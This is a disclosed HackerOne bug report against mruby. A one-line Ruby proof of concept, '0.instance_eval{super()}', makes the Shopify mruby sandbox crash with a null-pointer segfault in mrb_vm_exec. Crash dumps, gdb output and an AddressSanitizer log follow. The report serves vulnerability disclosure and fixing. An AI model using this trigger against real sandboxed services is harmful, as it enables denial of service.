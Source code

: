 # SIGSEGV in mrb_vm_exec

## Report Details
- **Report ID**: 196380
- **URL**: https://hackerone.com/reports/196380
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-01-06T19:57:37.489Z
- **Disclosed**: 2017-03-01T21:24:49.421Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC:
-------------------

The following code triggers the bug (attached as test_mrb_vm_exec_1296.rb):
	
	0.instance_eval{super()}

Sandbox:
-------------------

	x@x:~/Desktop/research/mruby-engine/bin$ ./sandbox test_mrb_vm_exec_1296.rb 
	./sandbox:20: [BUG] Segmentation fault at 0x00000000000028
	ruby 2.2.6p396 (2016-11-15 revision 56800) [x86_64-linux-gnu]

	-- Control frame information -----------------------------------------------
	c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
	c:0002 p:0186 s:0005 E:001a28 EVAL   ./sandbox:20 [FINISH]
	c:0001 p:0000 s:0002 E:000ff0 TOP    [FINISH]

	-- Ruby level backtrace information ----------------------------------------
	./sandbox:20:in `<main>'
	./sandbox:20:in `sandbox_eval'

	-- Machine register context ------------------------------------------------
	 RIP: 0x00007f6775adcd27 RBP: 0x00007f67746c9a74 RSP: 0x00007f67746629e0
	 RAX: 0x0000000000000000 RBX: 0x0000000000000000 RCX: 0x0000000000000001
	 RDX: 0x000000000000004f RDI: 0x00007f67746644e0 RSI: 0x00007f6774662cb0
	  R8: 0x00007f67746643e0  R9: 0x0000000000000000 R10: 0x00007f67746644e0
	 R11: 0x0000000000000000 R12: 0x000000000000004f R13: 0x0000000000000000
	 R14: 0x00007f6774676f80 R15: 0x00007f67746644e0 EFL: 0x0000000000010202

	-- C level backtrace information -------------------------------------------
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f677a1dfd55]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f677a1dff8c]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f677a0bc06b]
	/usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f677a17214e]
	/lib/x86_64-linux-gnu/libc.so.6 [0x7f6779cbcff0]
	/home/x/Desktop/research/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_exec+0x1f37) [0x7f6775adcd27] /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1296
	/home/x/Desktop/research/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_run+0x5c) [0x7f6775ae184c] /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:772
	/home/x/Desktop/research/mruby-engine/lib/mruby_engine/mruby_engine.so(mruby_engine_monitored_eval+0xbe) [0x7f6775acf41e] ../../../../ext/mruby_engine/eval_monitored.c:68
	/lib/x86_64-linux-gnu/libpthread.so.0(start_thread+0xc2) [0x7f6779a70182] pthread_create.c:312
	/lib/x86_64-linux-gnu/libc.so.6(clone+0x6d) [0x7f6779d8130d] ../sysdeps/unix/sysv/linux/x86_64/clone.S:111
	...
	...
	...
	7f677a6ee000-7f677a6ef000 rw-p 00000000 00:00 0 
	7fff151a6000-7fff159a5000 rw-p 00000000 00:00 0                          [stack]
	7fff159fe000-7fff15a00000 r-xp 00000000 00:00 0                          [vdso]
	ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]


	[NOTE]
	You may have encountered a bug in the Ruby interpreter or extension libraries.
	Bug reports are welcome.
	For details: http://www.ruby-lang.org/bugreport.html

	Aborted (core dumped)

Debug:
-------------------

	(gdb) r sandbox test_mrb_vm_exec_1296.rb 
	Starting program: /usr/bin/ruby sandbox test_mrb_vm_exec_1296.rb
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
	[New Thread 0x7ffff7ff7700 (LWP 2975)]
	[New Thread 0x7ffff1f73700 (LWP 3022)]

	Program received signal SIGSEGV, Segmentation fault.
	[Switching to Thread 0x7ffff1f73700 (LWP 3022)]
	0x00007ffff33ecd27 in mrb_vm_exec (mrb=mrb@entry=0x7ffff1f744e0, proc=<optimized out>, proc@entry=0x7ffff1f7c130, pc=0x7ffff1fd9a74) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1296
	1296	      c = mrb->c->ci->target_class->super;
	(gdb) l
	1291	        exc = mrb_exc_new_str_lit(mrb, E_NOMETHOD_ERROR, "super called outside of method");
	1292	        mrb_exc_set(mrb, exc);
	1293	        goto L_RAISE;
	1294	      }
	1295	      recv = regs[0];
	1296	      c = mrb->c->ci->target_class->super;
	1297	      m = mrb_method_search_vm(mrb, &c, mid);
	1298	      if (!m) {
	1299	        mrb_sym missing = mrb_intern_lit(mrb, "method_missing");
	1300	        m = mrb_method_search_vm(mrb, &c, missing);

Backtrace:
-------------------

	(gdb) bt
	#0  0x00007ffff33ecd27 in mrb_vm_exec (mrb=mrb@entry=0x7ffff1f744e0, proc=<optimized out>, proc@entry=0x7ffff1f7c130, pc=0x7ffff1fd9a74) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1296
	#1  0x00007ffff33f184c in mrb_vm_run (mrb=0x7ffff1f744e0, proc=0x7ffff1f7c130, self=..., stack_keep=stack_keep@entry=0) at /home/x/Desktop/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:772
	#2  0x00007ffff33df41e in mruby_engine_monitored_eval (data=0x7ffff1f743e0) at ../../../../ext/mruby_engine/eval_monitored.c:68
	#3  0x00007ffff7380182 in start_thread (arg=0x7ffff1f73700) at pthread_create.c:312
	#4  0x00007ffff769130d in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:111

Clang - ASAN - Log:
-------------------

	x@x:~/Desktop/research/clang/mruby/bin$ ASAN_SYMBOLIZER_PATH=/usr/lib/llvm-3.8/bin/llvm-symbolizer ./mirb test_mrb_vm_exec_1299.rb 
	mirb - Embeddable Interactive Ruby Shell

	ASAN:DEADLYSIGNAL
	=================================================================
	==2791==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000028 (pc 0x00000050dc52 bp 0x7fff39f50030 sp 0x7fff39f48b00 T0)
	    #0 0x50dc51 in mrb_vm_exec /home/x/Desktop/research/clang/mruby/src/vm.c:1296:37
	    #1 0x501d5b in mrb_vm_run /home/x/Desktop/research/clang/mruby/src/vm.c:772:10
	    #2 0x4f3ef8 in main /home/x/Desktop/research/clang/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549:18
	    #3 0x7fd62e3a4ec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
	    #4 0x41a595 in _start (/home/x/Desktop/research/clang/mruby/bin/mirb+0x41a595)

	AddressSanitizer can not provide additional info.
	SUMMARY: AddressSanitizer: SEGV /home/x/Desktop/research/clang/mruby/src/vm.c:1296:37 in mrb_vm_exec
	==2791==ABORTING


## Attachments
- test_mrb_vm_exec_1296.rb
- sandbox.log
